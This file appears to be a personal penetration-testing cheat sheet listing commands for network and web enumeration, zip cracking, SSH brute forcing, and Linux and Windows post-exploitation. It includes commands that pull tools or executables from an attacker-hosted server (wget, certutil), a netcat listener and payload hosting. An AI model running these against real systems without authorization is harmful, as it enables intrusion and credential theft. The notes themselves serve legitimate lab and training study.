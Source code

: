## Enumeration 
arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python -m SimpleHTTPServer




